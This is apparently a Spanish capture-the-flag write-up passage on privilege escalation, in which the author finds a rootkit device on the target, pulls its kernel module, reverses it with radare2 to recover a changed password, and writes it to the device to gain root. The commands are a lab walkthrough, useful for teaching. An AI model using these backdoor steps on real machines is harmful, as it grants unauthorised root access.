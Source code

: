## Privilege Escalation {-}

### Rootear la maquina {-}

La escalada de privilegio aqui se hace utilizando el rootkit.


```bash
ls -l /dev/ttyR0
```

Aqui vemos que el rootkit esta installado. Continuamos con lo que la web del rootkit nos dice.

```bash
echo "g0tR0ot" > /dev/ttyR0; id
```

Pero no functionna. Pensamos aqui que los attackantes que an installado el rootkit cambiaron la contraseña.
Segun la web, la contraseña se encuentra en un fichero `root.ko` y mirandolo bien hay un directorio que se
llama `...` (Que cabron)

```bash
cd ...
binary
get root.ko
```

Una vez descargado y como es un binario, tratamos de ver lo que passa a mas bajo nivel con **radare2**

```bash
radare2 root.ko
aaa
afl
sym.root_write
pdf
```

```r
    knitr::include_graphics("images/radare2rootko.png")
```

Vemos esta parte interressante y probamos una vez mas con:

```bash
echo "g3tPr1v" > /dev/ttyR0; whoami

root
```

Ya estamos root y podemos ver la flag.
